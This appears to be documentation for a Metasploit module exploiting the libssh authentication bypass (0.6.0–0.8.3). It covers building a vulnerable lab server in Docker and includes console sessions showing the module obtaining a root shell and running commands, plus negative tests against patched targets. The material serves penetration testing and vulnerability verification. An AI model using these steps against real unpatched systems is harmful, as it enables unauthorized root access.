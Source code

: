 ## Introduction

This module exploits an authentication bypass in libssh server code
where a `USERAUTH_SUCCESS` message is sent in place of the expected
`USERAUTH_REQUEST` message. libssh versions 0.6.0 through 0.7.5 and
0.8.0 through 0.8.3 are vulnerable.

Note that this module's success depends on whether the server code
can trigger the correct (`shell`/`exec`) callbacks despite only the state
machine's authenticated state being set.

Therefore, you may or may not get a shell if the server requires
additional code paths to be followed.

## Setup

### Docker (Vulhub)

A prebuilt [vulhub](https://github.com/vulhub/vulhub) target is available for testing. This target does _not_ work with the `Shell` action, only the `Execute` action. To test that scenario, use the `Docker (Custom)` steps below.

```
docker run -it -p 3333:22 vulhub/libssh:0.8.1
```

### Docker (Custom)

In an empty folder create a new `Dockerfile` with the below file contents. Note that this Dockerfile is based on [vulhub/libssh:0.8.1](https://github.com/vulhub/vulhub/tree/4b1954c5c95140d99a4b94a7005707dd041196f6/base/libssh/0.8.1) with changes to work with the `Shell` target:

```Dockerfile
FROM buildpack-deps:stable-scm

LABEL maintainer="phithon <root@leavesongs.com>"

COPY ssh_server_fork.patch /ssh_server_fork.patch

RUN set -ex \
    && BUILDDEP="gcc g++ make pkg-config cmake xz-utils patch" \
    && apt-get update \
    && apt-get install --no-install-recommends -y \
        ca-certificates \
        wget \
        libc6-dev \
        zlib1g-dev \
        libgcrypt20-dev \
        libgpg-error-dev \
        $BUILDDEP \
    && wget -qO- https://www.libssh.org/files/0.8/libssh-0.8.3.tar.xz \
        | xz -c -d | tar x -C /usr/src --strip-components=1 \
    && mkdir -p /usr/src/build \
    && patch /usr/src/examples/ssh_server_fork.c < /ssh_server_fork.patch \
    && cd /usr/src/build \
    && cmake \
        -DCMAKE_INSTALL_PREFIX=/usr \
        -DWITH_SERVER=ON \
        -DWITH_STATIC_LIB=ON \
        -DWITH_GSSAPI=ON \
        -DWITH_GCRYPT=ON \
        -DWITH_SFTP=ON \
        -DWITH_THREADS=ON \
        .. \
    && make && make install \
    && apt-get purge -y --auto-remove $BUILDDEP

RUN ssh-keygen -t ecdsa -m pem -f /etc/ssh/ssh_host_ecdsa_key -q -N "" \
    && ssh-keygen -t dsa -m pem -f /etc/ssh/ssh_host_dsa_key -q -N "" \
    && ssh-keygen -t rsa -m pem -b 2048 -f /etc/ssh/ssh_host_rsa_key -q -N ""

CMD /usr/src/build/examples/ssh_server_fork --hostkey=/etc/ssh/ssh_host_rsa_key --ecdsakey=/etc/ssh/ssh_host_ecdsa_key --dsakey=/etc/ssh/ssh_host_dsa_key --rsakey=/etc/ssh/ssh_host_rsa_key -p 22 0.0.0.0
```

Ensure the Metasploit patch is present in the same directory:

```
cp /path/to/metasploit-framework/external/source/libssh/ssh_server_fork.patch .
```

Expected directory structure:

```
Dockerfile
ssh_server_fork.patch
```

Build the image:

```
docker build -t libssh:vulnerable .
```

Create a new container available on port `2222`:

```
docker run -it -p 2222:22 libssh:vulnerable
```

### Host

1. `git clone git://git.libssh.org/projects/libssh.git`
2. `cd libssh` and `git checkout libssh-0.8.3`
3. `git apply -p1 /path/to/metasploit-framework/external/source/libssh/ssh_server_fork.patch`
4. Follow the steps in `INSTALL` to build libssh
5. Run `build/examples/ssh_server_fork` (I like to `strace` it)

## Actions

```
Name     Description
----     -----------
Execute  Execute a command
Shell    Spawn a shell
```

## Options

### CMD

Set this to a command or shell you want to execute. An `exec` channel
request will be sent instead of a `shell` channel request.

### SPAWN_PTY

Enable this if you would like a PTY. Some server implementations may
require this. Note that you WILL be logged in `utmp`, `wtmp`, and
`lastlog` in most cases.

### CHECK_BANNER

This is a banner check for libssh. It's not sophisticated, and the
banner may be changed, but it may prevent false positives due to how the
OOB authentication packet always returns `true`.

## Usage

Positive testing against unpatched libssh 0.8.3:

```
msf > use auxiliary/scanner/ssh/libssh_auth_bypass
msf auxiliary(scanner/ssh/libssh_auth_bypass) > set rhosts 172.28.128.3
rhosts => 172.28.128.3
msf auxiliary(scanner/ssh/libssh_auth_bypass) > set rport 2222
rport => 2222
msf auxiliary(scanner/ssh/libssh_auth_bypass) > set spawn_pty true
spawn_pty => true
msf auxiliary(scanner/ssh/libssh_auth_bypass) > set verbose true
verbose => true
msf auxiliary(scanner/ssh/libssh_auth_bypass) > run

[*] 172.28.128.3:2222 - Attempting authentication bypass
[+] 172.28.128.3:2222 - SSH-2.0-libssh_0.8.3 appears to be unpatched
[*] Command shell session 1 opened (172.28.128.1:56981 -> 172.28.128.3:2222) at 2018-10-19 12:38:24 -0500
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(scanner/ssh/libssh_auth_bypass) > sessions -1
[*] Starting interaction with 1...

# id
id
uid=0(root) gid=0(root) groups=0(root)
# uname -a
uname -a
Linux ubuntu-xenial 4.4.0-134-generic #160-Ubuntu SMP Wed Aug 15 14:58:00 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
# tty
tty
/dev/pts/1
#
```

Positive testing of shell commands using the `Execute` action:

```
msf auxiliary(scanner/ssh/libssh_auth_bypass) > set action Execute
action => Execute
msf auxiliary(scanner/ssh/libssh_auth_bypass) > set cmd id; uname -a
cmd => id; uname -a
msf auxiliary(scanner/ssh/libssh_auth_bypass) > run

[*] 172.28.128.3:2222 - Attempting authentication bypass
[+] 172.28.128.3:2222 - SSH-2.0-libssh_0.8.3 appears to be unpatched
[*] 172.28.128.3:2222 - Executed: id; uname -a
uid=0(root) gid=0(root) groups=0(root)
Linux ubuntu-xenial 4.4.0-134-generic #160-Ubuntu SMP Wed Aug 15 14:58:00 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(scanner/ssh/libssh_auth_bypass) >
```

Negative testing against patched libssh 0.8.4:

```
msf auxiliary(scanner/ssh/libssh_auth_bypass) > run

[*] 172.28.128.3:2222 - Attempting authentication bypass
[-] 172.28.128.3:2222 - SSH-2.0-libssh_0.8.4 appears to be patched
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(scanner/ssh/libssh_auth_bypass) >
```

Negative testing against an insufficiently implemented libssh server:

```
msf auxiliary(scanner/ssh/libssh_auth_bypass) > run

[*] 172.28.128.3:2222 - Attempting authentication bypass
[+] 172.28.128.3:2222 - SSH-2.0-libssh_0.8.3 appears to be unpatched
[-] 172.28.128.3:2222 - Net::SSH::ChannelOpenFailed: Session channel open failed (1)
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(scanner/ssh/libssh_auth_bypass) > run

[*] 172.28.128.3:2222 - Attempting authentication bypass
[+] 172.28.128.3:2222 - SSH-2.0-libssh_0.8.3 appears to be unpatched
[-] 172.28.128.3:2222 - Net::SSH::ChannelRequestFailed: Shell/exec channel request failed
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(scanner/ssh/libssh_auth_bypass) >
```

Negative testing against OpenSSH:

```
msf auxiliary(scanner/ssh/libssh_auth_bypass) > set rport 22
rport => 22
msf auxiliary(scanner/ssh/libssh_auth_bypass) > run

[*] 172.28.128.3:22 - Attempting authentication bypass
[-] 172.28.128.3:22 - SSH-2.0-OpenSSH_7.2p2 Ubuntu-4ubuntu2.4 does not appear to be libssh
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(scanner/ssh/libssh_auth_bypass) >
```

Confirming auth is still normally present using the OpenSSH client:

```
wvu@kharak:~$ ssh -vp 2222 -o StrictHostKeyChecking=no -o UserKnownHostsFile=/dev/null myuser@172.28.128.3
[snip]
debug1: Authentications that can continue: password
debug1: Next authentication method: password
myuser@172.28.128.3's password: wrongpassword
debug1: Authentications that can continue: password
Permission denied, please try again.
myuser@172.28.128.3's password: mypassword
debug1: Authentication succeeded (password).
Authenticated to 172.28.128.3 ([172.28.128.3]:2222).
[snip]
#
```
